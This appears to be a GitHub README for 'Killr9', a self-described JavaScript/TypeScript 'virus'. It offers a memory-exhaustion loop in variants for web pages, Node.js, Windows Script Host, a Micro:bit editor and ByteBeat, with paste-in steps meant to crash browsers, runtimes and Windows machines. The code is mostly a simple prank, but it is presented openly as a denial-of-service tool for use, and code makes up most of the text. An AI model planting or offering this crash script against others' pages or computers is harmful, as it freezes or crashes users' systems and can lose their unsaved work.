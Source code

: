 # Killr9
A JavaScript/TypeScript virus that will kill virtually anything


Platforms it has effect on:
* Google Chrome/Chromium-based browsers
* NodeJS
* Any version of Windows(via WSCRIPT.EXE)
* BBC Micro:bit(MakeCode Editor)
* Internet Explorer
* IEMode in Edge (kills IEChooser at the same time)


## Kill a webpage
Paste the JS code inside of a script tag.
```html
<script>
  function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
</script>
```

You can also link it like so:
```html
<script src="path/to/killr.js"></script>
```

## Kill a Windows96 instance
Create a WRT bin:
```js
//!wrt
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```

## Kill the BBC Micro:bit
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

## Killing NodeJS and Windows98+
The standalone JavaScript works well.
```js
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```
Pasting it into NodeJS will result in NodeJS crashing.
If you're using a NodeJS Repl on [Replit](https://replit.com/), you might see text saying `The Repl proccess died unexpectedly`.
To Kill Windows98 or above, open the MS-DOS prompt. Make sure you have Windows Script Host by running WSCRIPT.EXE. If it shows WSH settings, close them and run `WSCRIPT.EXE path/to/killr.js`.
Your computer will lag, crash, keep the fan on, and depending on the computer and how much RAM is already in use, BSOD(Blue screen of death).

# Killing HTML5 ByteBeat

ByteBeat removes newlines, so you'll need semi-colons. It'll need to be in a function, also.
```js
(function(){
function ohSnap() {
  var corruptable=[];
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap();
})()
```

For a complete demo, [Click here!](https://themirrazz.github.io/killr9/demopage/)
